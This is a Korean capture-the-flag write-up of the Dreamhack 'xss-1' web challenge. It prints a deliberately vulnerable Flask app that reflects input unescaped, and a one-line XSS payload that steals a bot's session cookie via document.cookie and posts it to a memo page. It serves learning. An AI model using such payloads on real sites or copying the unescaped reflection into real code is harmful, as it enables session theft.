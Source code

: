 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Dreamhack Web Hacking xss-1 Write-Up</h1>
</body>
<br>
<br>
</html>

문제 사이트로 들어가보자
![image](https://github.com/user-attachments/assets/05327431-7195-4fcf-ad16-037171489aea)
3개의 페이지로 이동할 수 있다.

하나하나 들어가보자.

먼저 vuln(xss) page로 들어가보았다.
![image](https://github.com/user-attachments/assets/27c2a80b-b6cf-4a3b-9b87-cf4d52b47c44)
흠 뭔지 잘 모르겠지만 스크립트를 작성할 수 있는 모양이다.

이어서 memo 페이지로 들어가 보았다.
![image](https://github.com/user-attachments/assets/38aa68bc-7035-4dc5-b284-c598e3ad8898)
hello라는 문구가 나오고 페이지에 새로 접속할 때마다 갯수가 늘어난다.

마지막으로 flag 페이지로 들어가보자.
![image](https://github.com/user-attachments/assets/78b9aec0-8d16-42c5-af4a-2f8e20a94334)
입력칸이 나온다. 일단 여기까지 살펴보고 문제 파일을 다운로드 받아 들어가 보자.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

쭉 살펴보니 ```/vuln```은 사용자가 어떤값을 입력해도 ```param``` 값을 출력한다.

그리고 ```/flag```는 GET과 POST 두가지 방식 요청을 처리하는데 GET 요청의 경우에는 ```flag.html```을 렌더링한다.

POST 요청의 경우에는 폼 데이터에서 ```param``` 값을 가져와 ```check_xss()``` 함수를 호출하고 ```/vuln```페이지에 쿠키를 포함시킨 요청을 보내고 그 결과를 반환하는 것을 알 수 있다. 

그리고 여기 ```check_xss()```함수가 하는 일은 ```read_url()```함수를 동작시켜 flag 쿠키를 생성 시키는 역할을 한다.

그렇다면 ```/memo```페이지에 생성한 쿠키값을 적도록 코드를 작성해서 ```/flag``` 페이지에 입력하보자

```python
<script> location.href="/memo?memo="+document.cookie; </script>
```

![image](https://github.com/user-attachments/assets/65fbc60d-8794-44c8-9618-ad24c76934a3)

![image](https://github.com/user-attachments/assets/828a1f52-6cdc-4cff-9fe7-eeec89e65d3c)

memo 페이지로 들어가보면 FLAG가 나와있다.
![image](https://github.com/user-attachments/assets/cba6478e-3603-49a5-b9c6-7d190fd63187)

